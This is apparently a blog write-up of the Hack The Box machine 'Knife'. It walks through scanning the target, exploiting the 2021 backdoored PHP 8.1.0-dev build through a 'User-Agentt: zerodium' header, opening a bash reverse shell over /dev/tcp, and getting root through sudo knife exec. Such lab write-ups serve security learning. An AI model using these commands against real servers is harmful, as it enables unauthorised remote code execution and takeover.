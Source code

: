 ```yaml
---
title: "Hack The Box - Knife"
description: In this post, I'll go over Knife from Hack the Box. It's an easy level Linux machine that shows what damage a supply chain attack on the PHP codebase could have caused if it would have slipped through the cracks and got released into the wild.
date: 2021-08-30T20:00:00+01:00
categories: [hack-the-box, writeup, knife, php, backdoor, chef]
cover: ./assets/2021-08-30-hack-the-box-knife/cover.jpg
---
```


Knife is one of the easier boxes on HTB. There are only two significant steps involved. The first step is noticing a header in the HTTP request that contains a weird PHP version. Looking for this version online shows that this particular PHP version has a backdoor inserted when the PHP development servers were hacked back in March of 2021. Once on the box, there is a setuid binary called knife. This binary is part of Chef, which is a collection of DevOps tools. Going through the docs show that arbitrary code execution is possible to get access to the root user.

## Enumeration
I am kicking off a nmap scan to understand better what services and ports the target machine is exposing. With arguments`-sV` to enumerate versions, `-sC` to run all default scripts, and store the output in a file named `nmap.txt`. Dumping the output to a log file makes it easy to refer back to later, or if you want to embed it in your blog, as I do.

```sh
$ nmap -sC -sV -o nmap.txt 10.10.10.242

# Nmap 7.91 scan initiated Wed May 26 20:16:25 2021 as: nmap -sC -sV -v -o nmap.txt 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 26 20:16:34 2021 -- 1 IP address (1 host up) scanned in 9.23 seconds
```

The result shows an ssh server running on port `22` and a simple web server hosted by Apache on port  `80`. Opening this website in Firefox show the renderings of what I would call a pretty basic HTML website.

![Website On Port 80](./assets/2021-08-30-hack-the-box-knife/website.png)

After combing through the website for a minute or two, I decided to start a couple of gobuster scans. None yielded anything fruitful and it wasn't until I checked my `nikto` scan for the second time that I noticed something interesting .

```sh
$ nikto -host 10.10.10.242 -output knife-nikto.txt

- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.242
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/8.1.0-dev
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HTWZVPJS Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ GET The site uses SSL and Expect-CT header is not present.
```

The `x-powered-by` header contains a rather interesting version, `PHP/8.1.0-dev`, indicating this is running a development build of PHP. On release day, Googling this version didn't yield many results. Hence, I took to [GitHub](https://github.com/php/php-src) and tried to find more information in the PHP source code itself. But this also wasn't very helpful. The repo didn't contain any tags for this specific version or any references to it whatsoever. Spending a lot more time trying different google searches, I bumped in this article from [artechnica](https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server). It talks about a supply chain attack against the PHP codebase where it got hacked, and a backdoor got inserted. Looking into it deeper many more articles talking about it https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/ and https://news-web.php.net/php.internals/113838.

Funny enough, searching for that version now directly leads to a working exploit on exploitdb:

![Duck Duck Go Search Result](./assets/2021-08-30-hack-the-box-knife/duckduckgo-search-now.png)

In a nutshell, what happened is that two commits got added to the php-src repo under the account names of two well-known PHP developers. The assumption is that an attacker gained access to git.php.net server. Git by itself doesn't add any safety measures around identity, making it very easy for whoever wants to impersonate a commit as a specific user. Following this incident, PHP maintainers have decided to migrate the official PHP source code repository to GitHub as a precaution.

Given the code lives on GitHub and the open-source nature of PHP, I can have a look at the malicious commits [here](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R370) and [here](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a?branch=2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a&diff=unified#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R368-R370). The commits target one file, `ext/zlib/zlib.c`, adding 11 lines of code (all in green):

It’s fascinating to see others commenting on the commit, the first comment asking if the misspelling of `HTTP_USER_AGENT` as `HTTP_USER_AGENTT` was a mistake, and four lines later someone asking what it did, and someone else responding basically that’s it’s a backdoor, and how it works.

![PHP Malicious Commit](./assets/2021-08-30-hack-the-box-knife/php-malicious-commit.png)

As the devs point out, to execute this backdoor, I’ll need a `User-Agentt` header that starts with “zerodium”, and whatever is after that will be executed as PHP code.

## Foothold
To test this out, I quickly prepare a `curl` command that will execute the `echo` command with some random text, hoping embedded in the output.

```sh
curl -XGET -H 'User-Agentt: zerodiumsystem("echo hello_15234_world");' 10.10.10.242 | grep hello
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5821    0  5821    0     0   111k      0 --:--:-- --:--:-- --:--:--  111k
hello_15234_world
```

It works! All I have to do now is replace the `echo` command with a reverse shell
 `curl -v -I -XGET -H 'User-Agentt: zerodiumsystem("bash -c \"bash -i >& /dev/tcp/10.10.14.9/6666 0>&1\"");' 10.10.10.242`. And I get a shell to extract the user flag:

![User Flag](./assets/2021-08-30-hack-the-box-knife/user-flag.png)

## Privilege escalation
The user I got access to is called james, and it seems that this user can run the `knife` command as root.

```sh
james@knife:/dev/shm$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

james@knife:/dev/shm$
```

Knife is part of the [Chef](https://docs.chef.io/platform_overview) toolchain. Which is an infrastructure as code platform. Knife itself is a command line tool that according to the docs can be used to manage different parts of chef such as nodes, cookbooks, recipes, roles, environments, ...

Digging through the docs I learned that `knife` has an [exec](https://docs.chef.io/workstation/knife_exec/) command that allows running ruby code. At the time of the challenge `knife` didn't have a [GTFObins page](https://gtfobins.github.io/gtfobins/ruby/#sudo) yet. Because I quickly skimmed the docs I [downloaded](https://github.com/secjohn/ruby-shells/blob/master/revshell.rb) a Ruby reverse shell and executed the file with `knife` to get root access:

![Root Flag](./assets/2021-08-30-hack-the-box-knife/root-flag.png)

But with the `-e` it could have been as easy as:

```
james@knife:~$ sudo knife exec -E "exec '/bin/bash'"
root@knife:/home/james#
```
